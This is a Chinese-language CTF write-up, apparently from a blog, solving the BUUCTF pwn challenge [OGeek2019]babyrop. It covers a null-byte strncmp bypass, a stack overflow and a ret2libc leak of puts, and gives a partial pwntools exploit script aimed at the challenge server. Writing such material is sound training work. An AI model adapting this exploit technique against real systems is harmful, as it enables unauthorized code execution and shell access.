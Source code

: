 例题：https://buuoj.cn/challenges#[OGeek2019]babyrop 。也可以去buuctf上找，题目名字：[OGeek2019]babyrop

拿到文件用IDA反汇编分析，main函数如下：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2libc/ret1.png?x-oss-process=style/watermark" style="zoom:80%;" />

经分析（分析过程就是读代码的过程，不进行介绍了），几个函数作用如下：

```c
  sub_80486BB();//设置缓冲区,且执行了puts函数
  fd = open("/dev/urandom", 0);//获得一个随机数
  if ( fd > 0 ) //随机数大于0，执行read函数
    read(fd, &buf, 4u);//从fd中读取4位的字符到buf
  v2 = sub_804871F(buf);//如果输入的字符等于buf，就退出，否则继续执行
  sub_80487D0(v2);//如果v2=127，就读取200个字符，否则将v2写入缓冲区
```

分析 sub_80487D0 函数：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2libc/ret3.png?x-oss-process=style/watermark" style="zoom:80%;" />

a1如果等于127，就只读取0xc8字符，不够溢出，但如果我们让a1的值，也就是v2的值大于buf的长度(0xE7)就可以进行溢出了。那么如何控制 v2 呢？

观察 sub_804871F 函数：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2libc/ret2.png?x-oss-process=style/watermark" style="zoom:80%;" />

如果我们输入的值和它初始的随机数相等，那么程序就会将buf第7个字节以后的内容（v5）返回，如果我们可以控制 v5 就可以控制v2了。在这里，为了绕过strncmp函数，我们利用strlen的截断。strlen函数的实现通常会使用一个循环来遍历字符串中的每个字符，直到找到第一个空字符'\0'为止。也就是说，如果第一个字符是'x/00'的话，strlen函数就会截断，统计到的字符串长度就为0，此时strncmp要比较的字符长度也为0，就可以绕过它了。

找到了溢出方法，接下来就需要劫持返回地址泄露libc了。如上所述，我们利用puts函数进行泄露。先后利用两次溢出获取flag：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2libc/ret5.png?x-oss-process=style/watermark" style="zoom:80%;" />

通过第一次溢出，通过将 puts 的 PLT 地址放到返回处， 程序将跳转到该地址并开始执行 puts 函数。此时，puts 函数需要从内存中读取要打印的字符串的地址，也就是puts的GOT地址，并将其打印到标准输出上，即泄漏出执行过的函数的puts 的真实地址。然后将 puts 的返回地址设置为 main 函数，方便再次溢出，用来执行 system('/bin/sh')；通过泄露出的地址计算出 libc 中的 system 和 /bin/sh 的地址；再次通过溢出将返回地址覆盖成泄露出来的 system 的地址拿到shell。

计算方法：偏移 = 真实 puts 地址 - libc中的 puts 地址 = system真实地址 - libc中的system地址。即system真实地址= libc中的system地址+偏移，bin/sh同理。

给出exp：

```python
from pwn import*

p=remote('node4.buuoj.cn',28327)
elf=ELF('./pwn')
libc = ELF('libc-2.23.so') #加载libc库，题目给出了下载链接
main_addr=0x8048825
exit=0x8048558
put_plt=elf.plt['puts'] #得到puts的plt地址
put_got=elf.got['puts'] #得到puts的got地址

payload1='\x00' +'a'*6+'\xff' #‘x/00’绕过stnrcmp,'a'*6使得‘\xff’在第7个字节，0xff>0xe7,可以溢出
p.sendline(payload1) 
p.recvuntil('Correct\n') #接收到Correct后，再继续执行

payload2='a'*0xe7+'a'*4+p32(put_plt)+p32(main_addr)+p32(put_got) #第一段溢出
p.sendline(payload2)
put_addr = u32(p.recv(4)) #接收puts打印出来的内容

offset=put_addr-libc.symbols['puts'] #计算偏移，libc.symbols的作用为寻找函数在libc中的位置
system=offset+libc.symbols['system'] #计算system地址
binsh = next(libc.search(b"/bin/sh"))+offset #计算bin/sh地址

p.sendline(payload1) #程序回到了main函数，此时重新绕过strncmp函数
p.recvuntil('Correct\n')
```